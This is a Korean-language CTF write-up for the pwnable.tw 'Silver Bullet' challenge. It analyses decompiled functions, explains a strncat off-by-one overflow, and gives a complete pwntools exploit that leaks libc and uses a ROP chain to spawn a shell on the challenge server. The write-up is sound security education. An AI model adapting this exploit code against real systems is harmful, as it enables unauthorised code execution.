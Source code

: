 ```yaml
---
layout: post
title: "pwnable.tw - Silver Bullet"
date: 2018-11-08
excerpt: "1 byte overflow + simple ROP"
tags: [write-up]
comments: true
---
```

```
1. Create a Silver Bullet 
2. Power up Silver Bullet 
3. Beat the Werewolf      
4. Return
```
main은 단순히 옵션 선택이며 히든 옵션은 없습니다.

```c
char s; // [esp+8h] [ebp-34h]
int v8; // [esp+38h] [ebp-4h]
.
.
memset(&s, 0, 0x30u);
.
.

```
그리고 위와 같이 48 바이트 크기의 char형 배열과 int형 변수 하나가 선언되어 있습니다. 이를 bullet과 power로 부르겠습니다.

bullet은 모두 0으로 초기화 됩니다.

#### 1. Create a Silver Bullet
```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 48u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *(s + 12) = v2;
  return puts("Good luck !!");
}
```
bullet에 값이 있는지 체크한 뒤, 없다면 48 만큼 입력받습니다.

특이한 점은, 입력한 길이가 power에 저장됩니다.

#### 2. Power up Silver Bullet
```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 0x30u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *(dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *(dest + 12));
  strncat(dest, &s, 48 - *(dest + 12));
  v3 = strlen(&s) + *(dest + 12);
  printf("Your new power is : %u\n", v3);
  *(dest + 12) = v3;
  return puts("Enjoy it !");
}
```
power가 47 이하라면 (48 - power)만큼 입력받아 입력값을 strncat으로 bullet 뒤에 이어 붙입니다.

그 후 bullet + 12(power)와 새로운 입력값의 길이를 더해 power에 다시 저장합니다.

#### 3. Beat the Werewolf      
```c
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= *(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```
bullet에 값이 있다면, a2(main에서 선언된 int형 변수이며, 0x7fffff의 값을 가집니다.)에서 power을 빼,

그 값이 0 이하라면 return 1 하고, 그 외에는 0을 리턴합니다.

```c
if ( beat(&s, &v5) )
      return 0;
```
위는 main의 코드의 일부인데, beat()의 리턴값이 1이라면 main은 return 0 합니다.

이는 특정 조건 달성시 ROP를 트리거해주는 장치라고 추측할 수 있습니다.

### Exploit

취약점은 strncat과 power up()에서 power을 처리할 때 발생합니다.

Create bullet시 47 바이트를 입력하면 Power up시 1 바이트를 입력하는데, strncat으로 47 바이트 뒤에 1 바이트를 strncat하면

뒤에 NULL이 따라 붙기 때문에 47 + 1 바이트가 버퍼를 채우고 NULL이 power을 덮게 됩니다.

strncat후 power이 0x00으로 덮인 상태에서
```
strncat(dest, &s, 48 - *(dest + 12));
v3 = strlen(&s) + *(dest + 12);
printf("Your new power is : %u\n", v3);
*(dest + 12) = v3;
```
위와 같이 원래 power을 따로 보관하지 않는다는 소스의 허점때문에 결국 power는 새로 입력한 데이터의 길이인 0x01이 됩니다.

그렇게 되면 다음번 power up시 48 - 1 = 47 바이트를 버퍼 뒤에 이어 입력할 수 있게 되기에 power와 main의 eip를 조작할 수 있습니다.

따라서 puts로 libc를 leak하고 main loop으로 다시 ROP를 진행하면 쉘 취득이 가능합니다.

exp.py
```python
from pwn import *

def create(payload):
	p.recvuntil('Your choice :')
	p.sendline('1')
	p.recvuntil('description of bullet :')
	p.send(payload)

def up(payload):
	p.recvuntil('Your choice :')
	p.sendline('2')
	p.recvuntil('another description of bullet :')
	p.send(payload)

def beat():
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('!!\n')

#p = process('./silver_bullet')
p = remote('chall.pwnable.tw', 10103)
e = ELF('./silver_bullet')
l = ELF('libc_32.so.6')

puts_plt = e.plt['puts']
puts_got = e.got['puts']

main = 0x08048954

offset_puts = l.symbols['puts']
#offset_puts = 0x5fca0 # local
offset_system = l.symbols['system']
#offset_system = 0x3ada0 # local
offset_binsh = next(l.search('/bin/sh'))
#offset_binsh = 0x15ba0b # local

# Stage 1 : libc leak

create('A' * 47)
up('A')

payload = '\xff'* 7
payload += p32(puts_plt) + p32(main) + p32(puts_got)

up(payload)
beat()

libc = u32(p.recv(4)) - offset_puts
system = libc + offset_system
binsh = libc + offset_binsh

log.info('libc base : ' + str(hex(libc)))

# Stage 2 : ROP

create('A' * 47)
up('A')

payload = '\xff' * 7
payload += p32(system) + 'AAAA' + p32(binsh)

up(payload)
beat()

p.interactive()
```

![shell](https://t1.daumcdn.net/cfile/tistory/997AA93C5BE4228002)



